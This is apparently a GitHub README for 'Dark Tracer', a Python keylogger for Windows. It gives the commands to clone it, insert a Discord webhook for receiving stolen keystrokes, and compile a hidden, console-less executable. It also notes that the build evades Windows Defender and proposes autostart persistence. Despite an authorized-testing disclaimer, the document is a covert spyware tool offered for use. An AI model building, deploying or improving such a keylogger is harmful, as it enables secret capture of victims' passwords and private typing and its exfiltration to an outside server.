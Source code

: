 # Dark Tracer Keylogger
### *An advanced keylogger 100% Python*

![photo_2024-12-07_15-24-05](https://github.com/user-attachments/assets/ebe8a9d1-b2da-4935-81b0-d79ad6244e36)

# ⚠️ Disclaimer
This tool is released exclusively for:

- *Professional Penetration Testers*
- *Red Team Operators*
- *Security Researchers*
- *Certified Ethical Hackers*
- *Authorized Security Exercises*

***Like all security testing tools, Dark Tracer must only be used on systems and networks for which you have explicit written authorization. Improper use of this tool may violate local and international laws.***

# How it works
After creating the executable file (*.exe*) using *pyinstaller*, once you launch the file on a Windows machine, **the keylogger will work hidden, sending everything is typed with the keyboard to your Discord Webhook.**
# How to use it
- Download the tool:
```bash
git clone https://github.com/Uriel-SG/DarkTracerKeylogger.git
```
- Edit the python code inserting your Discord Webhook:
```python
# URL del webhook Discord
WEBHOOK_URL = "https://discord.com/api/webhooks/YOUR-WEBHOOK-HERE"
```
- If you want, you can change the filename from dark_tracer.py to *whatever-you-want.py*;
- If you don't have it yet, install *pyinstaller*:
```bash
pip install pyinstaller
```
- Create your .exe file using *pyinstaller*:
```bash
pyinstaller --onefile --noconsole --hidden-import=pynput YOUR-FILE.py
```
(if you want you can add an icon adding *"--icon YOUR_ICO.ico"*)

- In the "dist" folder created you'll find the *.exe* file ready: *just start it*.

# 🧑‍💻 How to stop the process 
Simply open Windows Task Manager, locate the process, and end the task.

# 🔥 Future Improvements
To improve the project, the ideal would be to ensure that the executable file, once started, makes a copy of itself in the Windows "autostart" folder, so that the keylogger starts at every startup.

# 🛡️ Antivirus?
As you can see in the video, my ***Windows Defender doesn't detect the .exe file as a threat***. **Let me know!**

# Video Sample
[![Whatch the video](https://github.com/user-attachments/assets/da6c1213-5811-4b1b-9704-41d3d00cde68)](https://www.youtube.com/watch?v=Dea0IKQOwkI)
